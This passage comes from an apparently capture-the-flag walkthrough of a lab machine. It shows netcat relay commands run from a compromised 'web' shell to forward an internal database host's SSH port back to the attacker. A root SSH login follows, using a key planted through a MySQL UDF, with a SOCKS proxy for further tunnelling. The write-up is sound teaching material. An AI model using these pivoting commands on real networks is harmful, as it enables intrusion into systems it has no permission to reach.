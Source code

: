 {% img https://i.imgur.com/7IggbMC.jpg %}

Lets see this in action. First I setup the initial listener on the attacking machine:

```bash
# listen on tcp/4444, re-listening on tcp/222 on a new connection
root@kali:~# nc -lvp 4444 -c "nc -lvp 222"
listening on [any] 4444 ...
```

With the listener setup, lets issue a new `nc` command in the initial shell that I got on `web`, connecting the dots:

```bash
nc 192.168.56.101 4444 -c "nc 192.168.2.200 22"
```

When this runs, the initial listener will see the new connection, and I should have the `tcp/22` of **192.168.2.200** now forwarded locally:

```bash
root@kali:~# nc -lvp 4444 -c "nc -lvp 222"
listening on [any] 4444 ...

# connection comes in from 192.168.1.100
192.168.56.102: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 53870
listening on [any] 222 ...
```

Lets take a look at a updated network diagram, detailing where I am in the network now. The new port forward is denoted in red:

{% img https://i.imgur.com/A2463Kc.png %}

Lets try and SSH in with the key pair that I generated and loaded using the MySQL UDF:

```bash
root@kali:~# ssh -D 8000 root@127.0.0.1 -p222 -i kvasir_key
Linux db 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Nov  9 07:13:17 2014 from 192.168.2.100
root@db:~# 
```

I added the `-D` option so that I may have a socks proxy to work with should any further tunneling be required. This means now that with the SSH session built, I have a *almost* *direct* connection to the `db` (192.168.2.200) host, as denoted in green below:

{% img https://i.imgur.com/wHNJJ5g.png %}

8-)
